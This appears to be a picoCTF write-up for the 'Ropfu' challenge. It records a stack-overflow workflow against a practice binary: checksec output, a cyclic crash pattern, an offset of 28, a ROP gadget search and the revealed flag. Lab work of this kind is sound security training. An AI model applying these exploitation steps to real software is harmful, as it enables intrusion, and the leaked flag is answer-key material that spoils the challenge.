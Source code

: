 # Exp

# Flag: picoCTF{5n47ch_7h3_5h311_5b4fc869}

file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=3aa2bb6a5bf44d90a355da83fa909bbf5d9d90ce, for GNU/Linux 3.2.0, not stripped

checksec vuln       
[*] '/home/user/picoCTF/Ropfu/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

msf-pattern_create -l 120         
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9

./vuln                    
How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9
zsh: segmentation fault  ./vuln

sudo dmesg | tail
[sudo] password for user: 
[102413.420376] Code: Unable to access opcode bytes at RIP 0xffffffffffffffd7.
[103354.376276] tun: Universal TUN/TAP device driver, 1.6
[180187.908769] device eth0 entered promiscuous mode
[180188.879088] device eth0 left promiscuous mode
[182137.794315] code[566039]: segfault at 0 ip 00007f243b697ff9 sp 00007ffc354818a0 error 4 in watcher.node[7f243b684000+4a000]
[182137.794364] Code: f6 eb 23 4c 89 f0 4c 09 e0 48 c1 e8 20 74 0d 4c 89 f0 31 d2 49 f7 f4 48 89 d6 eb 0a 44 89 f0 31 d2 41 f7 f4 89 d6 49 8b 45 00 <48> 8b 04 f0 48 85 c0 0f 84 99 01 00 00 44 0f b6 2b 41 f6 c5 01 74
[199357.957116] vuln[954714]: segfault at 686b6668 ip 00000000686b6668 sp 00000000ffbf5720 error 14
[199357.957135] Code: Unable to access opcode bytes at RIP 0x686b663e.
[199751.851878] vuln[956724]: segfault at 62413961 ip 0000000062413961 sp 00000000ffaf5bd0 error 14
[199751.851885] Code: Unable to access opcode bytes at RIP 0x62413937.

msf-pattern_offset -l 120 -q 62413961
[*] Exact match at offset 28

## Offset is 28

Find a pop edi

ROPgadget --binary vuln | grep 'pop edi'

## pop edi; ret at address 0x0804b28f

or `ROPgadget --ropchain --binary vuln` generate the python code you need